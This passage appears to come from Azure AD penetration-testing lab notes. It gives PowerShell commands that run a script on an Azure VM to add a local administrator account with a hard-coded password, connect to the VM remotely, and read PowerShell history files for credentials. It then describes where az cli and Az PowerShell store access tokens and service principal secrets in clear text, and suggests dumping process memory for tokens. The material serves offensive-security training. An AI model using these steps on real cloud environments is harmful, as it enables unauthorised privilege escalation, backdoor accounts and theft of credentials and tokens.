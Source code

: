 #### Check the allowed actions of the role definition
```
Get-AzRoleDefinition -Name "<ROLE DEFINITION NAME>"
```

#### Run a command on the VM
```
Invoke-AzVMRunCommand -VMName <VM NAME> -ResourceGroupName <RESOURCE GROUP NAME> -CommandId 'RunPowerShellScript' -ScriptPath 'C:\AzAD\Tools\adduser.ps1' -Verbose
```

#### Contents of adduser.ps1
```
$passwd = ConvertTo-SecureString "Stud38Password@123" -AsPlainText -Force
New-LocalUser -Name student38 -Password $passwd
Add-LocalGroupMember -Group Administrators -Member student38
```

#### Access the VM
```
$password = ConvertTo-SecureString 'Stud38Password@123' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('student38', $Password)
$sess = New-PSSession -ComputerName 20.52.148.232 -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession $sess
```

#### Check for credentials in powershell history (Try other ways to tho!)
```
cat C:\Users\bkpadconnect\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
cat C:\Users\<USER>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

## Getting credentials
### Stealing tokens
#### Stealing tokens from az cli
- az cli stores access tokens in clear text in ```accessTokens.json``` in the directory ```C:\Users\<username>\.Azure```
- We can read tokens from the file, use them and request new ones too!
- azureProfile.json in the same directory contains information about subscriptions. 
- You can modify accessTokens.json to use access tokens with az cli but better to use with Az PowerShell or the Azure AD module.
- To clear the access tokens, always use az logout

#### Stealing tokens from az powershell
- Az PowerShell stores access tokens in clear text in ```TokenCache.dat``` in the directory ```C:\Users\<username>\.Azure```
- It also stores ServicePrincipalSecret in clear-text in AzureRmContext.jsonif a service principal secret is used to authenticate. 
- Another interesting method is to take a process dump of PowerShell and looking for tokens in it!
- Users can save tokens using Save-AzContext, look out for them! Search for Save-AzContext in PowerShell console history!
- Always use Disconnect-AzAccount!!
